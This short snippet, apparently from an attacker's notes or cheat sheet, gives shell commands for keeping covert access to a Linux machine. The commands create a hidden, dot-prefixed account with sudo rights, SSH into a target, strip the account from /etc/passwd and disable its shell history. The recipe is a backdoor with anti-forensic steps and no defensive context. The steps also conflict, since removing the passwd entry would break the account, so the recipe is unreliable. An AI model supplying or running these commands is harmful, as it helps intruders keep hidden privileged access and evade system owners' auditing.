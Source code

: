 ```
sudo useradd -m -r -s /bin/bash -G sudo .hiddenuser
```

Set password
```
sudo passwd .hiddenuser
```

SSH to target
```
ssh .hiddenuser@$TARGET
```

Remove from /etc/passwd
```
sudo sed -i '/\.hiddenuser/d' /etc/passwd
```

Disable login history tracking
```
echo 'export HISTFILE=/dev/null' >> /home/.hiddenuser/.bashrc
```
